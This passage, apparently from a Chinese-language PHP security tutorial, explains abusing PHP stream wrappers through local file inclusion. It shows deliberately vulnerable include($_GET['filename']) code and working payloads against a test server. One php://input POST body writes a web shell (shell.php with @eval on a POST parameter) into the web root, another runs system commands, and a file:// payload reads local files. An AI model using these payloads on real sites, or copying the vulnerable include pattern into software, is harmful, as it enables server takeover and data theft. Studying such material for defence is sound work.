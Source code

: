 ```
<?php
   echo file_get_contents("php://input")
?>
```
上面代码输出file_get_contents函数获取的php://input数据。测试传入POST数据 字符串xiaohua最终输出该字符串 。php://input可以获取POST传入的树

（2）写入木马

利用环境:
- 需要开启allow_url_include=on
漏洞代码:

```
<?php
  $filename=$_GET['filename'];
  include($filename);
?>
```
#### Payload:

URL: http://192.168.1.110/test.php?filename=php://inputPOST:`<?php fputs(fopen('shell.php','w'),'<?php @eval($_POST[xiaohua])>')?>`
通过php://input执行后成功在网站根目录创建了shell.php




(3)    执行命令

　　根写入木马漏洞代码操作基本类似知识post部分需要改

　　Post:`<?php system(‘whoami’);?>`

　　url: http://192.168.1.110/test.php?filename=php://input


### 3、file://伪协议


file://伪协议可以访问本地文件系统，读取文件的内容

示例代码:

```
<?php
  $filename=$_GET['filename'];
  include($filename);
?>
```

Payload：

```
http://192.168.1.110/test.php?filename=file://C:\phpStudy\PHPTutorial\WWW\xiaohua.txt
```

### 4、data://伪协议

php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码
